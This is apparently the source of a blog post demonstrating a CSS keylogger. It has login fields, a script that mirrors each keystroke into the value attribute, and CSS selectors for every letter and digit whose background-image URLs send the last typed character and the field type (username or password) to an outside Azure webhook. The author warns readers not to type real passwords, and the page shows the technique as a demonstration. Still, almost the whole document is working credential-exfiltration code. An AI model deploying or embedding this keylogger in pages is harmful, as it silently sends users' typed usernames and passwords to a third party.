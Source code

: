 ```yaml
---
title: "An example of a CSS keylogger"
date: 2019-08-14T11:33:46+10:00
draft: false
hidden: true
---
```


A demo of a CSS keylogger in action. Note - this **does** make requests when you type into the field so just be aware of that, so don't enter a real password! 😜

<input type="text" placeholder="Username" />
<br />
<input type="password" placeholder="Password" />

<script data-preview-code>
let inputs = document.getElementsByTagName("input");

for (let i = 0; i < inputs.length; i++) {
    let input = inputs[i];

    input.addEventListener("keypress", e => {
        e.preventDefault();
        let char = String.fromCharCode(e.keyCode);
        let newValue = input.value + char;
        input.setAttribute("value", newValue);
        input.setSelectionRange(newValue.length, newValue.length);
    });
}
</script>

<style>
input[type=text][value$=a] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=a&type=username');
}
input[type=password][value$=a] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=a&type=password');
}

input[type=text][value$=b] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=b&type=username');
}
input[type=password][value$=b] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=b&type=password');
}

input[type=text][value$=c] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=c&type=username');
}
input[type=password][value$=c] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=c&type=password');
}

input[type=text][value$=d] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=d&type=username');
}
input[type=password][value$=d] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=d&type=password');
}

input[type=text][value$=e] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=e&type=username');
}
input[type=password][value$=e] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=e&type=password');
}

input[type=text][value$=f] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=f&type=username');
}
input[type=password][value$=f] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=f&type=password');
}

input[type=text][value$=g] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=g&type=username');
}
input[type=password][value$=g] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=g&type=password');
}

input[type=text][value$=h] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=h&type=username');
}
input[type=password][value$=h] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=h&type=password');
}

input[type=text][value$=i] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=i&type=username');
}
input[type=password][value$=i] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=i&type=password');
}

input[type=text][value$=j] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=j&type=username');
}
input[type=password][value$=j] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=j&type=password');
}

input[type=text][value$=k] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=k&type=username');
}
input[type=password][value$=k] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=k&type=password');
}

input[type=text][value$=l] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=l&type=username');
}
input[type=password][value$=l] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=l&type=password');
}

input[type=text][value$=m] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=m&type=username');
}
input[type=password][value$=m] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=m&type=password');
}

input[type=text][value$=n] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=n&type=username');
}
input[type=password][value$=n] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=n&type=password');
}

input[type=text][value$=o] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=o&type=username');
}
input[type=password][value$=o] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=o&type=password');
}

input[type=text][value$=p] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=p&type=username');
}
input[type=password][value$=p] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=p&type=password');
}

input[type=text][value$=q] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=q&type=username');
}
input[type=password][value$=q] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=q&type=password');
}

input[type=text][value$=r] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=r&type=username');
}
input[type=password][value$=r] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=r&type=password');
}

input[type=text][value$=s] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=s&type=username');
}
input[type=password][value$=s] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=s&type=password');
}

input[type=text][value$=t] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=t&type=username');
}
input[type=password][value$=t] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=t&type=password');
}

input[type=text][value$=u] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=u&type=username');
}
input[type=password][value$=u] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=u&type=password');
}

input[type=text][value$=v] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=v&type=username');
}
input[type=password][value$=v] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=v&type=password');
}

input[type=text][value$=w] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=w&type=username');
}
input[type=password][value$=w] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=w&type=password');
}

input[type=text][value$=x] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=x&type=username');
}
input[type=password][value$=x] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=x&type=password');
}

input[type=text][value$=y] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=y&type=username');
}
input[type=password][value$=y] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=y&type=password');
}

input[type=text][value$=z] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=z&type=username');
}
input[type=password][value$=z] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=z&type=password');
}

input[type=text][value$=1] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=1&type=username');
}
input[type=password][value$=1] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=1&type=password');
}

input[type=text][value$=2] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=2&type=username');
}
input[type=password][value$=2] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=2&type=password');
}

input[type=text][value$=3] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=3&type=username');
}
input[type=password][value$=3] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=3&type=password');
}

input[type=text][value$=4] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=4&type=username');
}
input[type=password][value$=4] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=4&type=password');
}

input[type=text][value$=5] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=5&type=username');
}
input[type=password][value$=5] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=5&type=password');
}

input[type=text][value$=6] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=6&type=username');
}
input[type=password][value$=6] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=6&type=password');
}

input[type=text][value$=7] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=7&type=username');
}
input[type=password][value$=7] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=7&type=password');
}

input[type=text][value$=8] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=8&type=username');
}
input[type=password][value$=8] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=8&type=password');
}

input[type=text][value$=9] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=9&type=username');
}
input[type=password][value$=9] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=9&type=password');
}

input[type=text][value$=0] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=0&type=username');
}
input[type=password][value$=0] {
  background-image: url('https://prod-04.australiaeast.logic.azure.com:443/workflows/1e48855ebb594d1b909635833cded0f2/triggers/manual/paths/invoke?api-version=2016-10-01&sp=%2Ftriggers%2Fmanual%2Frun&sv=1.0&sig=p-S3I29hwmF5ayHFs12fJ_UvBa6g5YvAIDinkoB465E&char=0&type=password');
}
</style>
